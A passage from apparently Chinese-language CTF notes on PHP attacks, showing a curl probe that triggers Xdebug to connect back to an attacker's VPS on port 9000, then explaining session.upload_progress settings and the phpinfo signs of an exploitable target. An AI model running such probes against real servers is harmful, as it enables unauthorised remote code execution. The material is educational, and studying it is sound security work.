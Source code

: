 phpinfo中显示的信息是php-cli
 
但是实际上跑着的是php-fpm，而他是开着的
 
所以最后一键命令测试一下，即
 
监听自己的9000端口，再执行
 
```
curl 'http://题目ip:port/index.php?XDEBUG_SESSION_START=phpstrom' -H "X-Forwarded-For: vps_ip"


```
 
看有没有回连即可
 
## session.upload_progress 
 
### 定义 
 
session.upload_progress 是PHP5.4的新特征
 
当`session.upload_progress.enabled`选项开启时，PHP能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态。
 
当一个上传在处理中，同时POST一个与INI中设置的`session.upload_progress.name`同名变量时，上传进度可以在`$_SESSION`中获得。 当PHP检测到这种POST请求时，它会在`$_SESSION`中添加一组数据, 索引是`session.upload_progress.prefix`与`session.upload_progress.name`连接在一起的值
 
### 开启session.upload_progress 
 
修改php.ini文件，开启session.upload_progress即可
 
```
session.upload_progress.enabled = On
session.upload_progress.cleanup = On
session.upload_progress.prefix = "upload_progress_"
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
session.upload_progress.freq = "1%"
session.upload_progress.min_freq = "1"
```
 
### 适用目标 
 
当目标网站开启phpinfo，我们可以进行浏览
 
一旦发现
 
```
session.save_path => /var/lib/php5 => /var/lib/php5
session.serialize_handler => php => php
session.upload_progress.cleanup => On => On
session.upload_progress.enabled => On => On
session.upload_progress.freq => 1% => 1%
session.upload_progress.min_freq => 1 => 1
session.upload_progress.name => PHP_SESSION_UPLOAD_PROGRESS => PHP_SESSION_UPLOAD_PROGRESS
session.upload_progress.prefix => upload_progress_ => upload_progress_
```
 